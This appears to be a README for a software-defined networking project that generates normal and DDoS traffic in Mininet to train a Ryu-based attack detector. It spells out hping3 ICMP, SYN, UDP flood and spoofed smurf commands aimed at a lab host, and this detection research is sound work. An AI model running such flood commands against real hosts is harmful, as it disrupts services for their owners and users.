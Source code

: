 Find dataset here: https://drive.google.com/file/d/1N2QLDPb90XOdxcuQ_Fb7ZSVOG4J3w_zY/view?usp=sharing


Generating Normal traffic:
run command ryu-manager collect_normal_traffic.py in generate_normal_traffic folder.
run command "service openvswitch-switch start"
run command sudo python generate_normal_traffic.py in generate_normal_traffic folder.
Restart PC:
Generating DDoS traffic:
run command ryu-manager collect_ddos_traffic.py in generate_ddos_traffic folder.
run command "service openvswitch-switch start"
run command sudo python generate_normal_traffic.py in generate_ddos_traffic folder.
Restart PC:

Detecting Attacks and Normal Traffic:
run command service openvswitch-switch start
run command ryu-manager Detection.py in mininet folder. 
run command sudo python SDN.py in mininet folder
after the above command in the same terminal, run command xterm h1 h6 h13 h17.

Normal traffic
ping 10.0.0.15 on node h17 then ping 10.0.0.4 on h6
go to h13 do cd .. ls, clear, git clone, wget etc commands
stop
DDOS traffic:
hping3 is a network tool to perform ddos attacks.
now on node h17 ping 10.0.0.18
on node h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood 10.0.0.12 icmp flood
hping3 -S -V -d 120 -w 64 -p 80 --rand-source --flood 10.0.0.12 syn flood
hping3 -2 -V -d 120 -w 64 -p 80 --rand-source --flood 10.0.0.12 udp flood
hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood -a 10.0.0.12 10.0.0.12 smurfs
